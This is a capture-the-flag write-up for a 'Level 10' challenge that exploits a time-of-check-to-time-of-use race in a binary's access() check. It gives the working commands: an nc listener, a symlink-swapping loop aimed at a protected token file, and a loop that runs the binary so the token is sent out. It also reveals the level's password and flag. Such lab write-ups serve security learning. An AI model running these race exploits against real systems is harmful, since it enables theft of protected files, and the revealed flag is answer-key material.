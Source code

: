 # Level 10

A quick reverse engineer of the binary shows us that the binary reads the file and send it to an host. Unlike the previous ones it checks that we have access to the file using the access function. This function has an exploit documented in its man

```
Using  these  calls  to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.  For this reason, the use of this system call should be avoided.  (In the example just described, a safer alternative would be to temporarily switch the process's effective user ID to the real ID and then call open(2).)
```

We will do exactly that while listening to port 6969 which is the one the script is communicating with

```
nc -lk 6969
```

```
while true; do ln -sf /tmp/fake /tmp/goodlink; ln -sf /home/user/level10/token /tmp/goodlink; done
```
```
while true; do ./level10 /tmp/goodlink 10.0.2.15; done
```

**Password** : woupa2yuojeeaaed06riuj63c

**Flag** : feulo4b72j7edeahuete3no7c